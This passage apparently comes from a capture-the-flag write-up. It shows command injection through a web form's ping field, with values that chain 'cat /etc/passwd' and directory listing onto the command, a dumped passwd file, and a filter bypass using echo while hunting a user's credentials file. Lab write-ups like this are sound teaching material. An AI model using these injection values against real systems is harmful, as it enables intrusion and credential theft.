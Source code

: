 Then we move on to testing if we can read files with: 
```
command=cat /etc/passwd; ping -c 2 127.0.0.1
```

and we get the contents of the `/etc/passwd` file:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
loki:x:1000:1004:loki:/home/loki:/bin/bash
Debian-snmp:x:111:113::/var/lib/snmp:/bin/false
mysql:x:112:115:MySQL Server,,,:/nonexistent:/bin/false
```

Looking at the file contents we can see there are only two users; root and loki. We try `ls -la /home/loki; ping -c 2 127.0.0.1` but we get a command not allowed error.

Luckily there are many ways to list the contents of a directory, echo is one of them:
```
command=echo /home/loki/*; ping -c 2 127.0.0.1
/home/loki/credentials /home/loki/hosted /home/loki/user.txt
```

So we can see that the credentials file we are after is in loki's home directory.

Attempting to cat it directly we get another command not allowed message, which is weird, because we were just able to `cat /etc/passwd`
